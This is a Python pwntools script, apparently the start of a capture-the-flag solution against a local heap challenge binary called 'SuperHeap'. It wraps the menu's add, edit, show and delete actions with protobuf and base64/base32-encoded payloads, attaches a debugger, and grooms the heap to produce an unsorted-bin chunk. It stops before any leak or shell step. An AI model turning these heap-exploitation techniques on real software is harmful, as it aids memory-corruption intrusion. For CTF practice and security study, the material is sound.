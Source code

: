 ```python
from pwn import *
from pwnlib.util.packing import u64
from pwnlib.util.packing import u32
from pwnlib.util.packing import u16
from pwnlib.util.packing import u8
from pwnlib.util.packing import p64
from pwnlib.util.packing import p32
from pwnlib.util.packing import p16
from pwnlib.util.packing import p8
import base64
import bookProto_pb2
context(os='linux', arch='amd64', log_level='debug')
p = process("/home/zp9080/PWN/SuperHeap")
elf = ELF("/home/zp9080/PWN/SuperHeap")
libc=elf.libc
def dbg():
    gdb.attach(p,'b *$rebase(0x20e255)')  
    pause()

cont = bookProto_pb2.CTFBook()

def add(idx,date,title=b"AA",author=b"AAAA",isbn=b"AAA"):
    p.sendlineafter("Enter your choice >","1")
    p.sendlineafter("Index:",str(idx))

    cont.title = base64.b64encode(title)
    cont.author = base64.b64encode(author)
    cont.isbn = base64.b64encode(isbn)
    cont.publish_date = base64.b64encode(date)
    cont.price = 41
    cont.stock = 1
    payload = base64.b32encode(cont.SerializeToString())
    p.sendlineafter("Special Data:",payload)

def edit(idx,date,title=b"AA",author=b"AAAA",isbn=b"AAA"):
    p.sendlineafter("Enter your choice >","4")
    p.sendlineafter("Index:",str(idx))

    cont.title = base64.b64encode(title)
    cont.author = base64.b64encode(author)
    cont.isbn = base64.b64encode(isbn)
    cont.publish_date = base64.b64encode(date)
    cont.price = 41
    cont.stock = 1
    payload = base64.b32encode(cont.SerializeToString())
    p.sendlineafter("Special Data:",payload)

def show(idx):
    p.sendlineafter("Enter your choice >","2")
    p.sendlineafter("Index:",str(idx))

def delete(idx):
    p.sendlineafter("Enter your choice >","3")
    p.sendlineafter("Index:",str(idx))    

add(0,b"A"*0x20)
add(1,b"A"*0x430,title=b"BBBBB")
add(2,b"A"*0x430)
add(3,b"A"*0x430)

dbg()
#为了创造出unsorted bin chunk
delete(2)
```
